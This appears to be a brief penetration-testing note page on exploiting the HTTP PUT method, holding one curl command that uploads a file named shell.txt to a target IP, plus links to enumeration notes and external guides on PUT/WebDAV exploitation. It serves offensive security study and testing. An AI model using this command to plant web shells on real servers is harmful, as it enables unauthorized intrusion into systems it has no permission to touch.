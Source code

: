 # Manual

`$ curl -T 'shell.txt' http[s]://<IP>`

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/A - Information Gathering/02 - Active Fingerprinting/Enumeration via Network Protocols/HTTP/02 - Detecting HTTP Methods/Manual|HTTP Methods Enumeration: Manual]]

- [[PUT Upload]]

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)

- [Hacking Articles: Multiple Ways to Exploiting PUT Method](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)